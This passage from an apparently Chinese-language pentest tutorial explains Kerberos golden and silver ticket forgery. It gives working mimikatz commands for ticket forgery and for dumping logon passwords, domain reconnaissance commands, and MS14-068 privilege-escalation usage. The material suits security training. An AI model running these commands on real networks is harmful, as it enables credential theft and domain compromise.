 ```css
mimikatz "kerberos::golden /domain:<域名> /sid:<域 SID> /target:<目标服务器主机名> /service:<服务类型> /rc4:<NTLMHash> /user:<用户名> /ptt" exit
```

![image-20220116164434498](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161644792.png)

此时尝试访问，命令执行成功：

![image-20220116164045499](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161640302.png)

## 银票SILVER TICKET

### 原理

如果说黄金票据是伪造的TGT,那么白银票据就是伪造的ST。
 在Kerberos认证的第三部，Client带着ST和Authenticator3向Server上的某个服务进行请求，Server接收到Client的请求之后,通过自己的Master Key 解密ST,从而获得 Session Key。通过 Session Key 解密 Authenticator3,进而验证对方的身份,验证成功就让 Client 访问server上的指定服务了。
 所以我们只需要知道Server用户的Hash就可以伪造出一个ST,且不会经过KDC,但是伪造的门票只对部分服务起作用。

### 特点

1.不需要与KDC进行交互   2.需要server的NTLM hash

### 具体操作介绍

#### 一、伪造凭据，提升域内普通用户的权限

我们现在以一个本地administrator用户登录域内的一个主机中。

通过命令：**net config workstation**,可知域名和其他信息

通过命令：**nltest /dsgetdc:域名**,可知DC主机名

上传mimikatz,以管理员权限运行CMD,再去执行mimikatz：

```
 mimikatz.exe "privilege::debug" "sekurlsa::logonpasswords" "exit">log.txt
```

打开生成的log.txt

![image-20220116164721870](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161647656.png)

使用随便一个用户登录到域内,whoami查看下当前用户

**dir \\DC\C$** #查看访问DC的权限 

![image-20220116164902730](https://doraemon-1307638820.cos.ap-guangzhou.myqcloud.com/img/202201161649334.png)

上传mimikatz和MS14-068提权工具

使用MS14-068伪造票据：

```
ms14-068.exe -u 域成员名@域名 -s 域成员sid -d 域控制器地址 -p 域成员密码 #域机器是可以和域控制器互通则会创建.ccache文件
```

